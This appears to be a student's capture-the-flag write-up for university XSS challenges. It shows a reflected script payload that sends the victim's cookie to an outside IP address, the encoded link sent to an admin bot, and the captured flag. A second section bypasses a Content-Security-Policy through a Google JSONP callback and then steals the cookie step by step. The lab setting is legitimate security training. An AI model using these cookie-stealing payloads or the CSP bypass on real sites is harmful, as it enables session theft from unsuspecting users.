 
We go to actual website, enter for name input:
`<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://68.183.28.210:8000/'+document.cookie,false);xhr.send();</script>`. We take this URL and send it on the admin website:
`http://offsec-chalbroker.osiris.cyber.nyu.edu:10003/greet?name=%3Cscript%3Evar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27http%3A%2F%2F68.183.28.210%3A8000%2F%27%2Bdocument.cookie%2Cfalse%29%3Bxhr.send%28%29%3B%3C%2Fscript%3E`

flag{S33_XSS_1snt_s0_h4rd_1s_1t?_b1dba0e9933f5112}

------
# IGNORE FOLLOWING SECTION
### XSS 2
Initial gather of info
- Goal: provide URL that admin will click on
- Actual website
	- Check header: Content-Security-Policy|default-src 'self'; script-src 'self' [https://*.google.com](https://*.google.com "https://*.google.com"); object-src 'none';
		- This means clients can only execute scripts from google domain and self. 
- Test it on ourselves: %3Cscript%3Ealert%281%29%3C%2Fscript%3E
	- Does not work...gets displayed as the name
	- Probs because of restricted domain
	- Let's see if we can find a JSONP endpoint that has google domain
		- JSONP endpoint is a URL you visit with an injected script in the URL, which it returns to you whatever you entered but as a JSON object

http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%3Ehttps://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)%3C/script%3E


this is a workable JSONP:
https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)


http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%3Ehttps://accounts.google.com/o/oauth2/revoke?callback=alert(1337)%3C/script%3E


Step 1: alert on my browser:
- http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%20src=%22https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)%22%3E%3C/script%3E
- works!
Step 2: try seeing my own cookie:
- http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%20src=%22https://accounts.google.com/o/oauth2/revoke?callback=alert(document.cookie)%22%3E%3C/script%3E
- works!
Step 3: send my cookie to my own VM
- http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%20src=%22https://accounts.google.com/o/oauth2/revoke?callback=var xhr=new XMLHttpRequest();xhr.open('GET','http://68.183.28.210:8000/'+document.cookie,false);xhr.send();%22%3E%3C/script%3E

<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://68.183.28.210:8000/'+document.cookie,false);xhr.send();</script>
